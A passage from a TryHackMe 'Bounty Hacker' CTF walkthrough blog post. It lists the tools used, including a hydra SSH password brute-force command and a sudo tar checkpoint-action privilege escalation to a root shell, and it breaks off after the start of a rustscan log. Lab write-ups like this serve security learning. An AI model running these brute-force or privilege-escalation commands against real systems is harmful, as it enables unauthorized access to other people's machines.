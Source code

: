 ```yaml
---
title: Writeup - THM - BountyHacker
layout: post
summary: Walkthrough of Bounty Hacker of TryHackMe.
author: fr3akazo1d
date: '2020-09-24 23:14:00'
keywords: Linux, tar, privesc, security
category: walkthroughs
thumbnail: "/assets/img/thm-images/THM-BountyHacker.png"
permalink: "/blog/bountyhacker/"
usemathjax: true
published: true
---
```


# Global Information

| Room           | Date           | Difficulty | Tags                               | Time |
| -------------- | -------------- | ---------- | ---------------------------------- | ---- |
| Bounty Hacker  | 24.09.2020     |   Easy     | Linux, tar, privesc, security      | 4h   |

# Used Programs

| Program  | Command |
| --------- | -------- |
| rustscan | rustscan $ip --ulimit 5000 -- -sC -sV -oN nmap/initial  tee output |
| namp     |  nmap -sC -sV -oN FTP-Scan -p 21 10.10.149.155 |
| hydra | hydra -t 16 -l l** -P locks.txt 10.10.149.155 ssh | 
| ssh  | ssh l**@10.10.149.155 |
| tar | sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh |

# Steps:

## 1 Check for open Ports

This is a beginner flagged Room. So i give it a try. It only takes 30min to get the root flag. 

First i started with a rustscan of the Machine. To check witch ports are open on the machine. 
Below the rustscan output. 

---

```sh
rustscan 10.10.149.155 --ulimit 5000 -- -sC -sV -oN nmap/initial | tee output                                
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
Faster Nmap scanning with Rust.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/home/pmalle/.config/rustscan/config.toml"
```